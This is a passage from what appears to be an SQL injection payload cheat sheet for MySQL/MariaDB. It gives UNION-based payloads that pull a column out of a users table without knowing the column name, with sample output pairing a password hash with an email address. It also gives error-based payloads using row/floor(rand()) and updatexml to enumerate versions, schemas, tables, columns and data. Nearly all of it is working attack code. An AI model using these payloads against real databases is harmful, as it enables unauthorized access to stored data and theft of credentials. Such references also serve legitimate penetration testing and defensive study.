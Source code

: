 ### Extract data without columns name 

Extracting data from the 4th column without knowing its name.

```sql
select `4` from (select 1,2,3,4,5,6 union select * from users)dbname;
```

Injection example inside the query `select author_id,title from posts where author_id=[INJECT_HERE]`

```sql
MariaDB [dummydb]> select author_id,title from posts where author_id=-1 union select 1,(select concat(`3`,0x3a,`4`) from (select 1,2,3,4,5,6 union select * from users)a limit 1,1);
+-----------+-----------------------------------------------------------------+
| author_id | title                                                           |
+-----------+-----------------------------------------------------------------+
|         1 | a45d4e080fc185dfa223aea3d0c371b6cc180a37:veronica80@example.org |
+-----------+-----------------------------------------------------------------+
```





## MYSQL Error Based

### MYSQL Error Based - Basic

Works with `MySQL >= 4.1`

```sql
(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
'+(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))+'
```

### MYSQL Error Based - UpdateXML function

```sql
AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)-
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
AND updatexml(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
```

Shorter to read:

```sql
' and updatexml(null,concat(0x0a,version()),null)-- -
' and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)-- -
```
